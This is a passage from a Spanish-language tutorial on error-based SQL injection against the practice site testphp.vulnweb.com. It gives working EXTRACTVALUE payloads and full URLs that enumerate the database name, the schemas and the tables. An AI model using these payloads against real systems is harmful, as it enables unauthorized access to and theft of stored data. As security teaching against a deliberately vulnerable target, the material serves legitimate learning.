 ```sql
AND EXTRACTVALUE('',CONCAT('=',database()))-- -
```

Basicamente muestra el nombre de la base de datos en uso, gracias a que ocasiono un error.
Entonces la URL queda asi:

```http://testphp.vulnweb.com/listproducts.php?cat=1 AND EXTRACTVALUE('',CONCAT('=',database()))-- -```

Y el resultado es:

![](/assets/img/UPDWP-SQLi/error1.png)

Vemos como la base de datos es ```acuart```

**Enumeracion de las bases de datos**

Ojo: en este tipo de inyeccion solo podemos sacar un columna, asi que usaremos ```LIMIT 0,1``` para solo obtener un dato.

Usaremos el payload:

```sql
AND EXTRACTVALUE('',CONCAT('=',(SELECT concat(schema_name) FROM information_schema.schemata LIMIT 0,1)))--
```
Y la URL queda
```
http://testphp.vulnweb.com/listproducts.php?cat=1%20AND%20EXTRACTVALUE(%27%27,CONCAT(%27=%27,(SELECT%20concat(schema_name)%20FROM%20information_schema.schemata%20LIMIT%200,1)))--
```

Y vemos que el resultado fue:

![](/assets/img/UPDWP-SQLi/error2.png)

Y nos dice que una base de datos es ```ìnformation_schema```

Si queremos iterar entre los resultados solo hay que cambiar la parte de ```LIMIT 0,1``` a ```LIMIT 1,1``` y asi sucesivamente

**Enumeracion de las tablas**

Una de las bases de datos existentes es ```acuart``` asi que ahora mostraremos las tablas con el payload:

```sql
AND EXTRACTVALUE('',CONCAT('=',(SELECT table_name FROM information_schema.tables WHERE table_schema="acuart" LIMIT 0,1)))-- -
```

Y vemos que una de las tablas es ```artist```

![](/assets/img/UPDWP-SQLi/error3.png)


## Blind-Based SQL injections
